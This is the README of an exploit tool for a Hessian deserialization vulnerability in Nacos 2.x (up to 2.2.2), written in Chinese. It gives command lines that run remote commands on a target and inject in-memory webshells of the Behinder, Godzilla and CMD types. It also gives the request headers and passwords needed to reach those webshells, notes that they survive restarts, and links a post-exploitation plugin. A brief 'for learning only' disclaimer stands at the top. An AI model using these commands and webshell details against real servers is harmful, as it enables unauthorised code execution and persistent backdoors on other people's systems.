



## Nacos Hessian 反序列化漏洞利用工具 v0.5

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />
<br />注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
1. 自动注入内存马并执行命令	java -jar NacosRce.jar Url Jraft端口 "Command"
   <br />	
   ```shell
   java -jar NacosRce.jar http://192.168.90.1:8848/nacos  7848 "whoami"
   ```
2. 只注入内存马
   ```shell
      java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell
   ```
   
   <br />


<br />内存马说明：
<br />一、冰蝎内存马：
   <br />1、需要设置请求头x-client-data:rebeyond
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码rebeyond
   
<br />二、哥斯拉内存马：
   <br />1、需要设置请求头x-client-data:godzilla
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码是pass 和 key
<br />
<br />三、CMD内存马：
   <br />1、需要设置请求头x-client-data:cmd
   <br />2、设置Referer:https://www.google.com/
   <br />3、请求头cmd:要执行的命令
<br />
v0.5版本实现了：
<br />1、不出网漏洞利用
<br />2、可多次发起漏洞利用
<br />3、同时注入冰蝎/哥斯拉/CMD内存马
<br />4、内存马对nacos多版本进行了兼容
<br />
<br />tips:
<br />1、请用jdk1.8
<br />2、适用于 Nacos 2.x <= 2.2.2
<br />3、非集群的也能打哦
<br />4、此内存马重启nacos依然存活
<br />
<br />关于Windows
<br />如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件
```shell
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows
```
<br />如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功
<br />windows 没打成功也许是因为没权限操作C盘或其他原因
<br />
<br />
项目地址：https://github.com/c0olw/NacosRce
推荐哥斯拉Nacos后渗透插件：https://github.com/pap1rman/postnacos
<br />参考文章
<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
